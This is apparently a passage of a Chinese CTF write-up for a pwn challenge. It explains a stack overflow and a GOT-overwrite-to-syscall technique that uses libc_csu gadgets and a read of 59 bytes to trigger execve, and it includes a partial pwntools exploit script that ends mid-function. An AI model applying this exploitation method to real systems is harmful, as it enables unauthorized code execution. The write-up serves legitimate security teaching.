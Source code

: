 如果就单静态程序分析来说，这里存在一个很明显的栈溢出，而且溢出长度很大。

#### <a class="reference-link" name="%E5%88%A9%E7%94%A8%E5%88%86%E6%9E%90"></a>利用分析

这道题，和前不久的蓝帽杯决赛的pwn3很类似，都是明显的栈溢出。但是那道Pwn3当时用的投机做法，直接用 高位地址做滑板指令修改 libc_start_main地址为 gadget地址。需要靠运气爆破，成功几率并不高。

这道题，当时xmzyshyphc学长给我说了一个方法，即 修改 got表里的一个函数地址为 syscall地址。然后利用 libc_csu和 syscall来实现函数调用。

但这里，有几个小技巧：

如何选取syscall地址：

建议选择函数内部调用了syscall的got表地址，这样我们就只需要覆写最低位的一字节偏移或一位偏移，成功率极高。

```
► 0x7ffff7ad9280 &lt;alarm&gt;       mov    eax, 0x25
   0x7ffff7ad9285 &lt;alarm+5&gt;     syscall 
   0x7ffff7ad9287 &lt;alarm+7&gt;     cmp    rax, -0xfff
   0x7ffff7ad928d &lt;alarm+13&gt;    jae    alarm+16 &lt;alarm+16&gt;
```

如上所示，alarm函数 +5处 即是一个 syscall。那么我们选择将 alarm_got 的最低一字节改为 0x85即可。

如何getshell：

由于有了syscall和 csu，我们可以直接先考虑能不能找到一个 pop rax, ret的 gadget，这样我们后续就能够不用泄露libc地址，直接调用 system。但是没有合适的 pop rax, ret。这里的技巧为，当我们使用 read读取 /bin/sh到 bss段上时，我们可以在后面填充到 59个字符，这样read函数返回值为rax= 59，这样我们如果接着执行 syscall，那么就能够直接执行 execve函数。

#### <a class="reference-link" name="EXP"></a>EXP

```
from pwn import *
context.update(arch='amd64', os='linux', log_level='debug')
context.terminal=(['tmux', 'splitw', '-h'])

filename = "./pwn-1"
debug = 1
if debug == 1:
    p = process(['./pwn-1', '611252752'])
    elf = ELF(filename)
    libc = ('/lib/x86_64-linux-gnu/libc.so.6')
else:
    p = remote('')
    elf = ELF(filename)
    libc = ('/lib/x86_64-linux-gnu/libc.so.6')

csu_end_addr = 0x4008ca
csu_front_addr = 0x4008b0
fakeebp = 0xdeadbeef
def csu(rbx, rbp, r12, r13, r14, r15, last):
    # pop rbx,rbp,r12,r13,r14,r15
    # rbx should be 0,
    # rbp should be 1,enable not to jump
    # r12 should be the function we want to call
    # rdi=edi=r15d
    # rsi=r14
    # rdx=r13
    payload = 'a' * 0x1c0 + p64(fakeebp)
    payload += p64(csu_end_addr) + p64(rbx) + p64(rbp) + p64(r12) + p64(
        r13) + p64(r14) + p64(r15)
    payload += p64(csu_front_addr)
    payload += 'a' * 0x38
    payload += p64(last)
    return payload

def csu2(rbx, rbp, r12, r13, r14, r15, last):
```